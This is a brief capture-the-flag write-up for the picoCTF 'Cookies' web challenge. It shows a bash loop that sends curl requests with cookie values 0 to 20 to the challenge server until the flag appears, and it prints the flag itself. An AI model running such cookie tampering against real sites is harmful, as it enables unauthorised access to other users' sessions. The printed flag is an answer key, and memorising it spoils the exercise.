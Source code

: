 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución
```bash
erik4756-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name = $i"; done | grep "pico"
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```
